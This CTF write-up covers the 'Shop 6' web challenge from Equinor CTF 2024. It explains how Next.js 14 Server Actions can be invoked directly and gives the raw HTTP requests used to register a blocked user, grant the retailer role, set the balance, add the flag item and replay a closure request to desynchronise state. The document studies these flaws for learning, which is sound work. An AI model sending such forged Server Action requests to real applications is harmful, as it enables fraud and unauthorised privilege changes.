



# 🔥 Shop 6 🔥

`Shirajuki` @ Iku-toppene

## Introduction

🔥 Shop 6 🔥was a web challenge and also one of six fire challenges in Equinor CTF 2024, authored by null.
To solve this challenge, it was necessary to make use of Next.js Server Actions' trait of being publicly accessible to the client. Additionally, there was a logical flaw in the implementation of the item purchasing functionality, where Server Actions acted as closures, essentially leading to a desynchronization between the user's state and the database.

This CTF challenge was also whitebox, meaning the source code and necessary Dockerfiles were provided. Along with the source code, we also received a URL directing us to the live server.

The challenge description is as follows:


## Overview

Upon reviewing the hosted web application, we get a clearer idea of what the challenge is about. It is more or less very similar to challenges under the same series, like `Shop 4` and `Shop 5`, where the premise and goal is to purchase a specific item containing the flag. However, a major difference in this challenge is that we cannot seem to register an account from the get-go. This is where the provided source code and Dockerfiles came in handy.




## Analysis

Knowing that we need to figure out a way to enable user registration first in order to proceed to the application's functionalities, we can start by reviewing the code responsible for handling this functionality. The first hint we can see when doing so comes from the commented out JSX snippets in the source code, intended to handle the registration form.

```tsx
"use server";
/* eslint-disable @typescript-eslint/no-unused-vars */

import { registerUser } from "../actions";

export default async function Register({
  searchParams,
}: {
  readonly searchParams: { [key: string]: string | string[] | undefined };
}) {
  const error = searchParams.error as string | undefined;

  return (
    <div className="container">
      <div className="row justify-content-center">
        <div className="col-md-6">
          <div className="card shadow-lg border-0 rounded-lg mt-5">
            <div className="card-header bg-primary text-white">
              <h3 className="text-center font-weight-light my-4">Register</h3>
            </div>
            <div className="card-body">
              <div className="alert alert-danger mb-4">
                To combat a rise in security incidents in the previous
                generations of EPT shop, we have temporaraly closed the
                registration. Please try again tomorrow.
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
  );
  /*
  return (
    <div className="container">
      <div className="row justify-content-center">
        <div className="col-md-6">
          <div className="card shadow-lg border-0 rounded-lg mt-5">
            <div className="card-header bg-primary text-white">
              <h3 className="text-center font-weight-light my-4">Register</h3>
            </div>
            <div className="card-body">
              {error && <div className="alert alert-danger mb-4">{error}</div>}
              <form action={registerUser}>
                <div className="mb-3">
                  <label htmlFor="username" className="form-label">
                    Username
                  </label>
                  <div className="input-group">
                    <span className="input-group-text">
                      <i className="bi bi-person-fill"></i>
                    </span>
                    <input type="text" className="form-control" id="username" name="username" required />
                  </div>
                </div>
                <div className="mb-3">
                  <label htmlFor="password" className="form-label">
                    Password
                  </label>
                  <div className="input-group">
                    <span className="input-group-text">
                      <i className="bi bi-lock-fill"></i>
                    </span>
                    <input type="password" className="form-control" id="password1" name="password1" required />
                  </div>
                </div>
                <div className="mb-3">
                  <label htmlFor="password" className="form-label">
                    Confirm Password
                  </label>
                  <div className="input-group">
                    <span className="input-group-text">
                      <i className="bi bi-lock-fill"></i>
                    </span>
                    <input type="password" className="form-control" id="password2" name="password2" required />
                  </div>
                </div>
                <div className="d-flex align-items-center justify-content-between mt-4 mb-0">
                  <button type="submit" className="btn btn-primary">
                    Register
                  </button>
                </div>
              </form>
            </div>
            <div className="card-footer text-center py-3">
              <div className="small">
                <a href="/login">Already have an account? Sign in!</a>
              </div>
            </div>
          </div>
        </div>
      </div>
    </div>
  );
  */
}
```

Since most of the JSX code are commented out, the imported server action `registerUser(formData: FormData)`, intended to handle user registration, seems to be unused. The code for the server action looked as follows:

```ts
// app/actions.ts
export async function registerUser(formData: FormData) {
  const username = formData.get("username") as string;
  const password1 = formData.get("password1") as string;
  const password2 = formData.get("password2") as string;

  if (password1 !== password2) {
    return redirect("/register?error=Passwords do not match");
  }

  const existingUser = await getUserByName(username);
  if (existingUser) {
    return redirect("/register?error=User already exists");
  }

  const token = crypto.randomBytes(16).toString("hex");
  const hashedPassword = crypto
    .createHash("sha256")
    .update(password1)
    .digest("hex");

  if (await createUser(username, hashedPassword, token)) {
    redirect("/login?success=Registration successful! Please log in.");
  } else {
    redirect("/register?error=Something went wrong, please try again.");
  }
}
```

From the looks of it, the only way of registering a user is through triggering this said exported server action with the required FormData parameter. And when once registered, we should then have access to the shop's intended functionalities, including buying and selling items.

However, there seems to be an additional hurdle after the registration, specifically in the selling functionality where selling items requires a retailer role, which we don't initially have. Let's keep on tracing.

The following are the code for the buy and sell functionality respectively:

```tsx
// app/components/ItemCard.tsx
<form
  action={async () => {
    "use server";
    if (user) {
      if (user?.money >= item.price) {
        addItem(item.name);
        setMoney(user?.money - item.price);
      } else {
        redirect(`/?error=Insufficient funds to buy ${item.name}`);
      }
    } else {
      redirect(`/?login&error=You need to login in order to buy ${item.name}`);
    }
  }}
>
  <button type="submit" className="btn btn-primary">
    Buy
  </button>
</form>
```

```tsx
// app/items/page.tsx
<form
  action={async () => {
    "use server";
    if (user.retailer) {
      removeItem(item.name);
      setMoney(user.money + item.price);
    } else {
      redirect("/items?error=Only retailers can sell items");
    }
  }}
>
  <button type="submit" className="btn btn-danger">
    Sell
  </button>
</form>
```

Looking around the source code further, we find that the only code path to set a user's retailer role is through the server action `makeRetailer()`. Interestingly, same with the code for registration, this function is unused and not called anywhere either. It is also important to note that this function does not have any validation whatsoever other than that the user is checked to be authenticated.

```ts
// app/db.ts
export async function makeRetailer(): Promise<boolean> {
  const user = await getUser();
  if (!user) return false;

  db.run("UPDATE users SET retailer = ? WHERE id = ?", [true, user.id]);
  return true;
}
```

Assuming we can register a user and set ourselves as a retailer, having access to both buy and sell functionalities, we still need a way to increase our balance beyond the initial 100 to afford the EPT tote bag containing the flag.
Taking inspiration from the other challenges in the same series, revisiting the buy and sell methods may reveal a way to achieve this.

In summary, from the analysis, we can figure that the first obstacle is to register a user. Once registered, the next step is to find a way to call the exported server actions such as `makeRetailer` or similarily, `addItem` or `setMoney`. These actions could enable the selling functionality or directly add the flag item to our inventory. Alternatively, if these actions are not accessible but we still somehow can become a retailer, exploiting the buy/sell logic to increase our balance could provide the money we need to net us the flag as well.

## Understanding Next.js 14 server actions

But before diving into exploiting the application, let's take a look at Next.js server actions and the underlying magic as in how they work first. Note that since the challenge application runs on Next.js 14.2.15, much of what discovered below may only apply specifically to this version.

Before we start, a high-level understanding of what Server Actions are and how they can be used can be seen and outlined in the [Next.js documentation](https://nextjs.org/docs/app/building-your-application/data-fetching/server-actions-and-mutations). The following are some snippets taken directly from it:

> Server Actions in Next.js are asynchronous functions that are executed on the server. They can be called in Server and Client Components to handle form submissions and data mutations in Next.js applications.
>
> A Server Action can be defined with the React "use server" directive. You can place the directive at the top of an async function to mark the function as a Server Action, or at the top of a separate file to mark all exports of that file as Server Actions.

With that in mind, let's explore the technical details of how they work :)

### Server Action IDs

In Next.js 14, when defining a Server Action, Next.js generates a unique "Action ID" for it. This ID is a hash calculated based on the action's specific location in the codebase and its contents it seems. This approach makes the IDs deterministic if the source code is available, meaning we can deduce or retrieve these IDs if we have the code (which we fortunately do in this case).

It is important to note that this process has changed in Next.js 15 though. It is stated that `"Next.js now creates unguessable, non-deterministic IDs to allow the client to reference and call the Server Action. These IDs are periodically recalculated between builds for enhanced security"`. This specific change can be read in the following article: [https://nextjs.org/blog/next-15#enhanced-security-for-server-actions](https://nextjs.org/blog/next-15#enhanced-security-for-server-actions)

Anyway, from my understanding, here's a summary on how Action IDs works for Next.js 14 based on reading several documentations:

- When the application builds, Next.js analyzes all defined Server Actions and generates a unique ID for each one.
- The process of generating the IDs are very dependent on the action's location as well as its contents, making the ID specific to the code structure and function details, such as parameters and arguments. This will be further mentioned later.
  - It is, therefore, important to note that changes in these factors will alter the ID
- When client-side components uses Server Actions, instead of having access to the actual function directly, a reference that includes this action ID will be bundled within the client-code.
  - This way, it is theoretically possible to leak and expose all Server Action placed in the same file as the action the client uses. However, this challenge application is not susceptible to this as most components used SSR.
- A configuration file placed at `./.next/server/server-reference-manifest.json` is also generated during the build process, containing details about all Server Actions. This file includes:
  - All Server Action IDs (as JSON keys) in whole the application
  - Specific server workers (at specific page / endpoints) designated to handle each Server Action
  - An encryption key used for Server Action closures. This will also be mentioned later regarding invocating Server Actions.

The configuration structure might look something like this:

```
{
  "node": {
    "e55288980c2aa166e63d652496ef4cb5a59fe71b": {
      "workers": {
        "app/_not-found/page": "3641",
        "app/page": "6853",
        "app/items/page": "7058",
        "app/register/page": "6770",
        "app/login/page": "1354"
      },
      "layer": {
        "app/_not-found/page": "rsc",
        "app/page": "rsc",
        "app/items/page": "rsc",
        "app/register/page": "rsc",
        "app/login/page": "rsc"
      }
    },
    "73e81bf6d2f360e2dbcca467b38d6d3485416a80": {
      "workers": {
        "app/login/page": "1354"
      },
      "layer": {
        "app/login/page": "rsc"
      }
    }
  },
  "edge": {},
  "encryptionKey": "mJAPusl5apVZ8FEgO0pOxHh/c8gRvX1ZVIzcV+y7WtE="
}
```

### Invocation and client requests

With the Action ID in place, let's take a look at the various ways a client can invoke or call these server actions in Next.js, depending on how they're defined. Note that access to the Action ID presented above is essential for any invocation, as it uniquely identifies each Server Action in the client-to-server communication.

#### Forms

According to the Next.js documentation, the main way to use Server Actions is via an HTML `<form>` element with the `action` prop. When the form is submitted, Next.js automatically sends the data using the [FormDate Web API](https://developer.mozilla.org/en-US/docs/Web/API/FormData), allowing the action to handle and extract data from the form fields through a FormData object. More details on its usage can be found here: https://nextjs.org/docs/14/app/building-your-application/data-fetching/server-actions-and-mutations#forms

An important note is that when invoked this way, the Server Action must either strictly accept only FormData as its first parameter or none at all. This constraint ensures that data can be handled correctly when passed via the form submission.

For example, we could define an action like this:

```tsx
"use server";
export async function loginUser(formData: FormData) {
  const username = formData.get("username") as string;
  const password = formData.get("password") as string;
  // Process the form data
}
export default async function Login() {
  return (
    <form action={loginUser}>
      <input type="text" name="username" />
      <input type="password" name="password" />
      <button type="submit">Login</button>
    </form>
  );
}
```

or alternatively, with no parameters:

```tsx
"use server";
export async function loginUser() {
  // Process the form data
}
export default async function Login() {
  return (
    <form action={loginUser}>
      <button type="submit">Login</button>
    </form>
  );
}
```

When called from the client, this action will initiate a `POST` request with a `Content-Type` of `multipart/form-data` to the server. A typical request for this might look like the following:

```
POST /login HTTP/2
Host: www.example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryToyTbSR91Ei4Fmrd
Content-Length: XXX

------WebKitFormBoundaryToyTbSR91Ei4Fmrd
Content-Disposition: form-data; name="$ACTION_ID_674d520b41ccc6f326424b41b57befe8f5ca78e4"


------WebKitFormBoundaryToyTbSR91Ei4Fmrd
Content-Disposition: form-data; name="username"

Shirajuki
------WebKitFormBoundaryToyTbSR91Ei4Fmrd
Content-Disposition: form-data; name="password"

asdzxc123
------WebKitFormBoundaryToyTbSR91Ei4Fmrd--
```

In the context of this challenge application, this means that the server actions defined in `app/actions.ts`, including `loginUser(formData: FormData)` and `registerUser(formData: FormData)`, should be accessible to us if we obtain their respective Action IDs. Similarily, the `makeRetailer()` function in `app/db.ts` would also be accessible under the same conditions.

To obtain these Action IDs, we have a couple of options:

- **Local Setup with Request Interception:** By setting up a local instance of the application and making sure no modifications are done to the `app/actions.ts` and `app/db.ts` files respectively, we can simulate calls to these actions if imported and used in any component. Intercepting the network requests during this process will expose the Action IDs in the request payload.

- **Local Setup with Client-side components:** Similarily, by setting up a local instance of the application and then using the server actions in client-side components. The Action IDs will be included in the bundled client-code.

- **Extracting from the Server Reference Manifest:** Alternatively, we can pull the Action IDs directly from the generated configuration file (`./next/server/server-reference-manifest.json`) after setting up an instance locally. This file contains all the Action IDs alongside their associated paths.

With the Action IDs in hand, we should be able to invoke these server actions as though they were public endpoints. Thus, registration of users and giving the user the retailer role should be possible for us to exploit.

#### Forms alongside method binding

In addition to just simply passing in FormData as a parameter, one can also pass in additional arguments to a Server Action using the `bind` method as described here: https://nextjs.org/docs/14/app/building-your-application/data-fetching/server-actions-and-mutations#passing-additional-arguments

For example, we can define and structure an action like this below:

```tsx
"use server";
import { User } from "../db";

export async function setMoney(amount: number, formData: FormData) {
  const amount = formData.get("amount") as number;
  // ...
}
export default async function Update() {
  return (
    <form action={setMoney.bind(null, 10000)}>
      <input type="number" name="amount" />
      <button type="submit">Motherlode</button>
    </form>
  );
}
```

or alternatively, with no FormData at all:

```tsx
"use server";
import { User } from "../db";

export async function setMoney(amount: number) {
  // ...
}
export default async function Update() {
  return (
    <form action={setMoney.bind(null, 10000)}>
      <button type="submit">Motherlode</button>
    </form>
  );
}
```

The request can then look something like the following:

```
POST / HTTP/2
Host: www.example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2ZnBVfhv1G12CmqK
Content-Length: XXX

------WebKitFormBoundary2ZnBVfhv1G12CmqK
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundary2ZnBVfhv1G12CmqK
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"5033aa9e8e719350ff01f9a353595d64a7488812","bound":"$@1"}
------WebKitFormBoundary2ZnBVfhv1G12CmqK
Content-Disposition: form-data; name="$ACTION_2:1"

[10000]
------WebKitFormBoundary2ZnBVfhv1G12CmqK--
```

With this structure and way of invoking the server action, one could theoretically call any Server Action with arbitrary parameters given that the Action ID is known. It is to note that the limit in this case is that the arguments given should be serializable as stated here: https://react.dev/reference/rsc/use-server#serializable-parameters-and-return-values

#### Forms alongside closures

Finally, another way to structure a Server Action is by defining it directly within a component, creating what's known as a closure. This method associates the action with a snapshot of the data state at the time of rendering, so any arguments required by the action are serialized and included in the request itself.

However, to protect sensitive data from being exposed to the client within these serialized snapshots, Next.js encrypts the data using a unique encryption key generated at each build. This encryption ensures that closure-based actions can only be invoked within the specific build context they were generated for, adding a layer of security by binding them to that build. For further details, Next.js provides a helpful overview here: https://nextjs.org/blog/security-nextjs-server-components-actions#closures

Like the above sections, here's an example of how a closure could look like:

```tsx
"use server";
import { User, Item } from "../db";
import { redirect } from "next/navigation";

export async function removeItem(itemName: string) {
  // ...
}
export async function setMoney(amount: number) {
  // ...
}
export default async function Sell({
  user,
  item,
}: {
  readonly user: User | null;
  readonly item: Item;
}) {
  return (
    <form
      action={async () => {
        "use server";
        if (user.retailer) {
          removeItem(item.name);
          setMoney(user.money + item.price);
        } else {
          redirect("/items?error=Only retailers can sell items");
        }
      }}
    >
      <button type="submit">Sell</button>
    </form>
  );
}
```

The request against closures would look similar to request against the the bounded actions, but with the difference in that the argument are encrypted:

```
POST /items HTTP/2
Host: www.example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryUDUZv2eADcIFY6kH
Content-Length: XXX

------WebKitFormBoundaryUDUZv2eADcIFY6kH
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryUDUZv2eADcIFY6kH
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"8096ba709448aa04f5b916405bc2620e6b7b1e0a","bound":"$@1"}
------WebKitFormBoundaryUDUZv2eADcIFY6kH
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryUDUZv2eADcIFY6kH
Content-Disposition: form-data; name="$ACTION_2:2"

"dPs9K3zSEOjED8k17zAAaqeHQ0ESD/5+Mu+dPVpFDpRsB3x/8nbZzrocrbp1RIGtUCZ7W1SOtWdIUGEccTAWDt6KpNMQvp9CiCYdTrNWDZ/yU9Lhvs7T457Eh5FHtw9PvF4cxpUQsNDAVXk3h2+P"
------WebKitFormBoundaryUDUZv2eADcIFY6kH--
```

In the context of the challenge application, this makes closures a bit trickier to exploit since we can't easily manipulate the argument values directly within the client.
However, since the data is serialized and the state snapshot is embedded within the request, any verification logic, like the if-check in `app/components/ItemCard.tsx`, is tightly linked to the state captured when the request is generated:

```tsx
<form
  action={async () => {
    "use server";
    if (user) {
      // The user's serialized state is saved in the request, meaning that this
      // verification check runs on the same data even when replayed
      if (user?.money >= item.price) {
        addItem(item.name);
        setMoney(user?.money - item.price);
      } else {
        redirect(`/?error=Insufficient funds to buy ${item.name}`);
      }
    } else {
      redirect(`/?login&error=You need to login in order to buy ${item.name}`);
    }
  }}
>
  <button type="submit" className="btn btn-primary">
    Buy
  </button>
</form>
```

This setup implies that once we buy an item we can afford, we could replay the same request, which would still pass the `user?.money >= item.price` check. Each replayed request would trigger both the `addItem` and `setMoney` Server Actions, creating a desynchronization between the request state and the backend database state.

As a result, each request replay would add the item to our inventory again while setting the money back to a constant value, allowing us to bypass spending limits. This would enable us to buy the item multiple times without actually losing any more money than the first initial purchase:

```ts
export async function addItem(itemName: string): Promise<boolean> {
  const user = await getUser();
  if (!user) return false;

  const item = db.query("SELECT id FROM items WHERE name = ?").get(itemName) as
    | Item
    | undefined;
  if (!item) return false;

  db.run("INSERT INTO user_items (user_id, item_id) VALUES (?, ?)", [
    user.id,
    item.id,
  ]);
  return true;
}

export async function setMoney(amount: number): Promise<boolean> {
  const user = await getUser();
  if (!user) return false;

  db.run("UPDATE users SET money = ? WHERE id = ?", [amount, user.id]);
  return true;
}
```

#### Next-Action header

Lastly, this is one of the most mystery one, with little to no documentation found on the internet other than some examples found scattered around in Stackoverflow, discussions, blogs, articles and so on: https://github.com/vercel/next.js/blob/v14.2.15/packages/next/src/client/components/router-reducer/reducers/server-action-reducer.ts#L149

Regarding the challenge application, there was a file we did not take a look into during the analysis. Precisely, the middleware.ts file. It is so that all requests containing this specific not requested from the server will be blocked with the status code 403

```ts
import { NextRequest, NextResponse } from "next/server";

// Make sure we are fully SSR complient and not using any client-side JS
export async function middleware(request: NextRequest) {
  if (request.headers.get("Next-Action")) {
    return new NextResponse(null, { status: 403 });
  }
  const response = NextResponse.next();
  if (
    response.headers
      .get("Content-Type")
      ?.toLowerCase()
      .includes("text/x-component")
  ) {
    return new NextResponse(null, { status: 403 });
  }
  response.headers.set("Content-Security-Policy", "script-src 'none';");
  return response;
}

export const config = {
  matcher: "/:path*",
};
```

Otherwise, one could simply send the following request to invoke a Server Action with arbitrary parameters

```
POST / HTTP/2
Host: www.example.com
Content-Type: text/plain; charset=UTF-8
Next-Action: 5033aa9e8e719350ff01f9a353595d64a7488812
Content-Length: XXX

[1337]
```

Great... So, what does all this mean for us? Essentially, as Next.js have kept on emphasizing throughout its documentation, `"You should basically treat Server Actions as public HTTP endpoints."` This means validation is a must when working with Server Actions, as they're accessible to clients and potentially vulnerable if mishandled. In the case of this challenge application, several unused Server Actions without proper validation were left exposed, making them accessible to all clients.

Now with all that said, much of the findings above were gathered after the CTF to deepen my understanding of how things work in Next.js under the hood.
During the competition and how I got the first blood on the challenge, however, my approach was more less structured. I mindlessly went havoc on the keyboard, brains goes brrr, and in combination to having a quick skim through the documentation, the flag just appeared...

## Exploitation

Cool, with the knowledge sharing done! Let's take a look at the exploitation now :)

We start by setting up a local instance, where the registration page is modified by uncommenting the code for the forms in order for us to register a user locally. By replaying the request against the live server using the same Action ID, we could register a user successfully.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 472

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_22848b167831802fadcb34db9cc648e9d77b665f"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="username"

shirajuki
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password1"

asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="password2"

asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

Now, with all the things we've gone through in understanding how Server Actions work, we should have at least 3 paths to get the flag.

### Path 1 - Rosebud, kaching and motherlode

We could send a request usually used with bounded actions to arbitrarily set our balance to any desired value, effectively bypassing any intended limitations. With our balance set sufficiently high, we could then simply purchase the EPT Tote Bag that contains the flag, completing the challenge without needing any additional exploits.

In the request shown below, we basically call `setMoney.bind(null, 9001)()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 409

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"5033aa9e8e719350ff01f9a353595d64a7488812","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

[9001]
------WebKitFormBoundaryQApJRAsTKClOX1Fa--

```

### Path 2 - EPT Tote Bag in my bag

Similarily, an even easier way is to just simply add the EPT Tote Bag containing the flag, directly to our inventory.

In the request shown below, we basically call `addItem.bind(null, "EPT Tote Bag")()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 421


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"240aa4f8f6a6e8c0edfbc1f6b473afaa2164e7b7","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["EPT Tote Bag"]
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

### Path 3 - State desynchronization through closures

Unfortunately, I did not know of the method of binding Server Actions as shown in the exploits and requests above. And instead focused on exploiting the buy / sell functionality after successfully registering a user and setting the user's retailer role.

In the request shown below, we basically call `makeRetailer()`.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 182

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_ID_758c88ac2c11c3f9c5eac5df2912014fc02de432"


------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

After that, with the idea of closures we had discussed above about how the state is serialized and saved in the requests itself. We can buy the `Fun` item and then replay the same request at least 26 times for the necessary items we could resell.

```
POST / HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 858

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["$@2"]
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"9337c109f875b15e8546173b9d015d3123b9728c","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:2"

"12wBRqePUMo/+f7x2mV3ihIJ/a6k5k2B5z0VTQHt8UrAYMwwV7iMngSRK4SQHC7nEGRqFCnIJj+SqqENKz0AD1g9mMP2p4vIXU7vZLhYws4en88FdxAMLfSlAtRofz5prCbpfUVKUoMsYV78AA3y5YoIIjr5NmelPAfl1FD6DLx+zWwjy39McbcH9ON8+OdUbijPVKDHz/fHABeGz1yVV5zBOSpJKwZcnPaAXGs16DaiD3rH9IkgabM34v0OI80hlp+E4wapntsDJbcHF8ZRfrPWglO2AJ5IXmqnRkybPPCQF9wezVgW3JDbcPejHcAU4MuGOLUnrisTPM6jpt3GPGPbyLM="
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

With this, we should have lots of the `Fun` item added to our inventory, manually selling each and every item should give us enough balance for the EPT Tote Bag.

**Boom, flag!** `EPT{3v3ry7hin6_i5_4_5erv3r_4cti0n_1f_y0u_7ry_h4rd_en0ugh!}`



To wrap up this write-up, I would like to thank my teammates at Iku-toppene for the great teamwork during the CTF. Solving this challenge was definitely a team effort alongside the bigshot milk hero olefredrik, and not something I accomplished alone. Additionally, I would like to express my greatest appreciation to the Equinor Pwn Team (EPT) for hosting such an amazing CTF and for the high-quality challenges. Finally, a special thanks to the people who reached out after the CTF and started discussions with me, encouraging me to further explore and piece together the findings shared above.

Thank you for reading!
